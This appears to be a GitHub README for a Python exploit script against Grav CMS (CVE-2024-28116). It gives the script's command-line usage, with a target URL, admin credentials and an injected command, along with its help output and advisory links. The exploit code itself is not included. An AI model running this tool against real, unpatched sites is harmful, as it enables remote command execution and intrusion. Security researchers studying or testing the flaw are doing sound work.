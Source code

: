 # Grav CMS Remote Code Execution (Authenticated) - CVE-2024-28116

## Info

_This code is an adaptation from [`Grave` Github repository](https://github.com/akabe1/Graver) with some improvements based on [this video](https://ethicalhacking.uk/videos/CVE-2024-28116/)._

Exploit against `Grav CMS` (for versions below `1.7.45`) based on SSTI + RCE vulnerabilities, labeled as `CVE-2024-28116`. This script basically creates a page with the vulnerability, executes it and, finally, deletes the page after the execution.

## Usage
```shell-session
python3 Grav_CMS_RCE.py -t http://10.10.10.10 -u 'admin' -p 'S3cureP4ssw0rd' -x 'ping -c 1 10.10.10.9'
```

Help message:

```
$ python3 Grav_CMS_RCE.py -h

usage: Grav_CMS_RCE.py [-h] -t TARGET [-P PORT] -u USERNAME -p PASSWORD -x COMMAND [--no-delete-file] [--panel-route PANEL_ROUTE] [--no-banner] [--show-warnings]

Grav CMS RCE (Authenticated).

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        URL where Grav CMS is running. Example: http://10.10.10.10
  -P PORT, --port PORT  Port running Grav CMS. Default: 80
  -u USERNAME, --username USERNAME
                        Username to authenticate in Grav CMS
  -p PASSWORD, --password PASSWORD
                        Password for the user in Grav CMS.
  -x COMMAND, --command COMMAND
                        Command to inject/run.
  --no-delete-file      Do NOT delete the generated files. Useful to check command execution output.
  --panel-route PANEL_ROUTE
                        Admin Panel route in Grav CMS. Default: /admin
  --show-warnings       Show warnings (if there are).
```

If for some reason we do not want to delete the generated files, we can use `--no-delete-file` flag, visit the page the script indicates and read the command output.

## More info
More CVE-2024-28116/about this exploit info:
- Tested on `Grav CMS v1.7.44 - Admin 1.10.44`.
- [https://github.com/akabe1/Graver](https://github.com/akabe1/Graver)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-28116](https://nvd.nist.gov/vuln/detail/CVE-2024-28116)
- [https://ethicalhacking.uk/videos/CVE-2024-28116/#gsc.tab=0](https://ethicalhacking.uk/videos/CVE-2024-28116/#gsc.tab=0)
- [https://github.com/getgrav/grav/security/advisories/GHSA-c9gp-64c4-2rrh](https://github.com/getgrav/grav/security/advisories/GHSA-c9gp-64c4-2rrh)

## Disclaimer
The owner of this repository is not responsible for the usage of this software. It was made for educational purposes only.

## Licence
- MIT

